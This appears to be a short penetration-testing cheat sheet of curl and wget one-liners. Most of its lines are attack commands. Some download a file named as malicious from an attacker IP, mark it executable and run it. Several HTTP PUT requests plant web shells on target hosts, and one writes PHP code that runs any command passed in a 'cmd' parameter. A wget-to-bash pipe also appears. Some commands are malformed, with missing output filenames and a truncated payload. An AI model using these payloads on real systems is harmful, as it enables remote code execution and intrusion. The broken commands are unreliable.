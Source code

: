 # Handy HTTP commands

### curl

`curl -o http://192.168.x.x/malicious-shit.php`

you can also pipe in commands too such as

`curl -o http://192.168.x.x/malicious-shit.php ; chmod +x shell.php ; ./shell.php`

User agent change

`curl -A "Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0"`

#### HTTP PUT

`curl http://victim-site.com --upload-file file.txt`

`curl -X PUT -d '' http://192.168.0.105/test/shell.php`

`curl -X PUT -d '' http://10.11.1.14/shell.asp`

`curl -X PUT -d 'http://10.11.0.220/shell-p-444.asp' http://10.11.1.14/shell.asp`

`curl -X PUT -d '&%d 2>&%d",f,f,f)' ?>' http://10.11.1.14/shell.txt`

`curl -X PUT -d '"; $cmd = ($_REQUEST['cmd']); system($cmd); echo ""; die; }?>' http://10.11.1.229/poopypants.txt`

### wget

`wget -O - https://raw.githubusercontent.com/laurent22/joplin/master/Joplin_install_and_update.sh | bash`

`wget -O http://192.168.x.x/malicious-shit.php`

you can also pipe in commands too such as

`wget -O http://192.168.x.x/malicious-shit.php ; chmod +x shell.php ; ./shell.php`
